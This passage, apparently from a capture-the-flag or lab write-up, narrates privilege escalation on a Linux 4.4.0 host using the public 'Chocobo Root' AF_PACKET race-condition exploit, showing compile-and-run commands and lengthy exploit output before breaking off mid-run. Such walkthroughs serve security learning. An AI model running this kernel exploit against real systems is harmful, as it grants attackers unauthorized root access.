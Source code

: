 <h2>Privilage Escalation</h2>

<p>Some pictures but nothing else... To elevate privilages I decided to give a try this <a href="https://www.exploit-db.com/exploits/40871/"><b>Choco Root</b></a> exploit, created for <b>Linux Kernel 4.4.0</b>. It's using <b>race condition</b> privilage escalation, which I'm going to discuss in one of my future posts. Now let's run it! </p>

{% highlight bash %}
eric@BM:~$ touch chocobo_root.c
eric@BM:~$ nano chocobo_root.c
eric@BM:~$ gcc chocobo_root.c -o chocobo_root -lpthread
eric@BM:~$ ./chocobo_root
linux AF_PACKET race condition exploit by rebel
kernel version: 4.4.0-36-generic #55
proc_dostring = 0xffffffff81087ea0
modprobe_path = 0xffffffff81e48f80
register_sysctl_table = 0xffffffff81286e50
set_memory_rw = 0xffffffff8106f360
exploit starting
making vsyscall page writable..

new exploit attempt starting, jumping to 0xffffffff8106f360, arg=0xffffffffff600000
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 81561, last val = 0)
current packet version = 2
pbd->hdr.bh1.offset_to_first_pkt = 48
race not won

retrying stage..
new exploit attempt starting, jumping to 0xffffffff8106f360, arg=0xffffffffff600000
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 163931, last val = 0)
current packet version = 2
pbd->hdr.bh1.offset_to_first_pkt = 48
race not won

retrying stage..
new exploit attempt starting, jumping to 0xffffffff8106f360, arg=0xffffffffff600000
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 221473, last val = 2)
current packet version = 0
pbd->hdr.bh1.offset_to_first_pkt = 48
*=*=*=* TPACKET_V1 && offset_to_first_pkt != 0, race won *=*=*=*
please wait up to a few minutes for timer to be executed. if you ctrl-c now the kernel will hang. so dont do that.
closing socket and verifying.......
vsyscall page altered!


stage 1 completed
registering new sysctl..

new exploit attempt starting, jumping to 0xffffffff81286e50, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 66563, last val = 0)
current packet version = 2
pbd->hdr.bh1.offset_to_first_pkt = 0
race not won

retrying stage..
new exploit attempt starting, jumping to 0xffffffff81286e50, arg=0xffffffffff600850
sockets allocated
removing barrier and spraying..
version switcher stopping, x = -1 (y = 143274, last val = 0)